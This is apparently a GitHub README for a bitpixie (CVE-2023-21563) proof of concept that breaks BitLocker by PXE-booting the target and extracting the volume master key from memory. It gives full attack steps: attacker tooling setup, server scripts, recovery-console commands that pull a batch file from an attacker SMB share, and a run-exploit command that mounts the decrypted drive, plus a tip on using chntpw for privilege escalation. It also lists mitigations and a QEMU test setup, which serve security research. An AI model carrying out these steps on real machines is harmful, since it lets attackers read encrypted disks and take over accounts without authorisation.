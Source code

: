# bitpixie Proof of Concept

## General concept of the attack
The Bitpixie bug was originally discovered by [Rairii](https://github.com/Wack0) and assigned CVE-2023-21563.
The first public demonstration of the full attack was performed by th0mas at 38c3: ["Windows BitLocker: Screwed without a Screwdriver"](https://media.ccc.de/v/38c3-windows-bitlocker-screwed-without-a-screwdriver).
Large parts of this repository are based on his work, that he also published as an article: ["Windows BitLocker -- Screwed without a Screwdriver"](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/) This article also explains potential mitigations.

[Marc André Tanner](https://github.com/martanne/bitpixie) also implemented the bitpixie exploit, you might want to check out his repository!

## Prerequisites and building process
In order to carry out this attack, the encrypted computer must meet certain requirements.
- It must use BitLocker without pre-boot authentication.
- It must be able to boot in PXE mode. Ideally, the PXE boot option is not disabled in the bios. On some systems, this attack may work even if PXE boot is disabled, as PXE boot can be enabled by connecting an external network card.
- The PCR Validation must not include `4`. Check with `manage-bde -protectors -get c:` This is default behaviour.

### Software requirements for the attacker machine
The following packages have to be installed on the attacker machine:
- dnsmasq
- impacket-smbserver
- (hivexregedit)

For debian based systems:
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

To build the initramfs, clone the repository and execute build.sh:
```
$ git clone --depth 1 https://github.com/andigandhi/bitpixie
$ cd bitpixie
$ ./build.sh
```

> [!note]
> The repository with a prebuilt alpine initramfs can be found in the releases section.

## How to perform the attack
The attack consists of two separate steps.
First, a modified BCD configuration file must be created specifically for the victim.
The next step is to boot the target via PXE using the modified BCD file, so that the VMK can be extracted from memory.

The TFTP server can be started with the script `start-server.sh`:
```
Starting the SMB server for exchanging the BCD file:
$ ./start-server.sh smb <interface>

Starting the TFTP and DHCP server for PXE booting:
$ ./start-server.sh pxe <interface>
```

To boot into the linux system through PXE-boot, press Restart while holding down the Shift key.
This will reboot the machine into Advanced Boot Options.

### Extracting the BCD file
The BCD file can be exported using `bcdedit` on the victims machine.
If you are already local Administrator you can directly extract and modify the BCD file.

Otherwise you can open a cmd.exe from within the Advanced Boot Options by clicking *Troubleshoot -> Advanced Option -> Command line (-> Skip this drive)* and enter the following commands.

```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```

The modified BCD file will be directly moved to the attacker machine so you can directly start performing the actual bitpixie attack.

![BCD File Transfer](images/grab-bcd-smb.gif)

### Breaking BitLocker
Start the TFTP server in exploit mode: `./start-server.sh exploit <interface>`.

In the Advanced Boot Options click on `Use a device` and select IPv4 PXE Boot.
The PXE boot process should start and finally drop into the Alpine initramfs.

Log in as root and perform the bitpixie exploit on the victim machine:
```
initrd:~# run-exploit /dev/sda3
```
The BitLocker partition should now be mounted at /root/mnt.
If it did not work, reboot and try it again. Sometimes the VMK is not detected / overwritten.

> [!note]
> The alpine initramfs also has [chntpw](https://pkgs.alpinelinux.org/package/edge/community/x86_64/chntpw) installed for easy privilege escalation!

Don't forget to unmount the file system after performing your changes: `umount /root/mnt`!

![VMK Extraction](images/run-exploit.gif)


## Mitigations that work
- Use BitLocker with Pre Boot Authentication (TPM+PIN) (Preferred way, since it also prevents a bunch of other attacks against BitLocker.)
- Apply patch [KB5025885](https://support.microsoft.com/en-us/topic/how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) as described in the Microsoft guideline.
- Disable UEFI network stack to completely disable PXE (If none of the above is possible)


## How to set up a test environment
### Setting up QEMU
This exploit can be tested using QEMU.

I installed Windows 11 ([Tiny 11](https://github.com/ntdevlabs/tiny11builder)) on a newly created disk, installed all security patches and activated BitLocker.
Before creating the virtual machine, I had to edit the loader and change it to `/usr/share/OVMF/OVMF_CODE_4M.ms.fd` as shown below.

![VirtManager Settings](images/qemu-machine-settings.png)

After enabling BitLocker, change the model type of the network interface to `virtio` and set the ROM to "no" (see [this bug](https://bugs.launchpad.net/maas/+bug/1789319)).
The XML of the network interface should look lke this:
```
<interface type="network">
  <model type="virtio"/>
  <rom enabled="no"/>
  [...]
</interface>
```

### Building the initrd
The complete `bitpixie-initramfs,gz` can be built using the script `./build
[-d|--debug]`. If the `--debug` flag is used the temporary rootfs directory
will be not deleted in order to manually examinate it via e.g. `sudo
[chroot|arch-chroot] /path/to/temp/initramfs sh`. The final gzipped initramfs
is automatically transfered to the `pxe-server/` directory.

The initramfs can be tested locally on the terminal via QEMU:

```
# Install qemu-system-x86_64 (minimal configuration)
# $ apt install qemu-system-x86
# Note: For more information see e.g. https://wiki.ubuntuusers.de/QEMU/
qemu-system-x86_64 \
  -m 1G -enable-kvm  \
  -kernel pxe-server/linux \
  -initrd pxe-server/bitpixie-initramfs.gz \
  -append "console=ttyS0" \
  -nographic
```

If a simple QEMU ethernet connection is required, the following flags can be
added:

```
# Extend QEMU with network capacity
# For more information see:
#   https://wiki.gentoo.org/wiki/QEMU/Options#Networking
#   https://wiki.archlinux.org/title/QEMU#Networking
#   https://wiki.qemu.org/Documentation/Networking
#
qemu-system-x86_64 \
  ... \
  -netdev user,id=net0 -device virtio-net-pci,netdev=net0
```

> [!NOTE]  
> If a specific functionality is missing then this could be due to a not loaded
> driver. All loaded drivers can be displayed with `lsmod` and loaded with
> `modprobe DRIVER`.
> To brutally load all modules (and probably trigger kernel crashes) the
> following command can be used:
> ```
>   $ find /lib/modules/5.14.0-1-amd64/ -name '*.ko' -exec sh -c 'modprobe $(basename {} | cut -d'.' -f1)' sh {} \;
> ```

## Alternative Method of obtaining the BCD (not recommended)
Boot the victim system into the initramfs using PXE boot: `./start-server.sh get-bcd <interface>`
On the victim machine you can identify the drive containing the Windows installation (often /dev/sda).

On the attacker machine execute the BCD extractor script:
```
$ ./grab-bcd.sh /dev/sda
[+] Info: Grabbing disk and partition GUIDs via SSH...
[...]
[+] Info: Created modified BCD file: pxe-server/Boot/BCD
```
This script obtains the disk and partition GUID from the victim computer and creates a registry patch file.
Afterwards the BCD-file gets patched and copied to pxe-server/Boot/BCD.
> [!note]
> The template file file needs to be served as `Boot\BCD` via PXE.

Now you are ready to perform the actual attack!
Reboot the victim system into the startup settings again.
